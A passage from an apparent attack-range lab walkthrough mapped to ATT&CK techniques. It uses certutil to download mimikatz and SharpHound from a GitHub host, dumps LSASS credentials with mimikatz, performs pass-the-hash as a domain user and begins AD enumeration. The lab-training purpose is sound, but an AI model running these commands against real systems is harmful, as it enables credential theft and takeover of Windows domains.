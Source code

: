 We can transfer the tool using `certutil`

**Step 1.15**
```PowerShell
[ITSERVER:PowerShell] certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/mimikatz.exe C:\Temp\m.exe
```
ATT&CK Techniques: `T1005`

And then execute it to dump the credentials from LSASS process

**Step 1.16**
```PowerShell
[ITSERVER:PowerShell] C:\temp\m.exe

[ITSERVER:mimikatz] privilege::debug
[ITSERVER:mimikatz] sekurlsa::logonpasswords
```
ATT&CK Techniques: `T1003.001`

You should be able to see the NTLM hash of `billh` domain user and can now use it move forward with attacking AD.

## Part 2

### Pass the Hash

While still in `mimikatz` we can use that hash of the domain user (`ATTACKRANGE\billh`) in an Pass-the-Hash attack to start a PowerShell with a Kerberos ticket belonging to that user (i.e. impersonate that user).

**Step 2.1**
```PowerShell
[ITSERVER:mimikatz] sekurlsa::pth /user:billh /ntlm:<NTLM-hash> /domain:attackrange /run:powershell
```
ATT&CK Techniques: `T1550.002`

This will spawn a new PowerShell. If you run `whoami` you will still see `PurpleUser`, however, as far as other services are concerned, you are `ATTACKRANGE\billh`.

### Enumerate AD

Now that we are in control of an AD user, let's enumerate the domain and find a way to escalate our privileges to Domain Admin.
Let's use popular tool called `Bloodhound` to gather the data and then visualize it.

We can download the data collector with `certutil` as before

**Step 2.2**
```PowerShell
[ITSERVER:PowerShell] certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/SharpHound.exe C:\Temp\sh.exe
```
ATT&CK Techniques: `T1005`

And then run it to collect all data about the domain, its users, computers, groups and their privileges
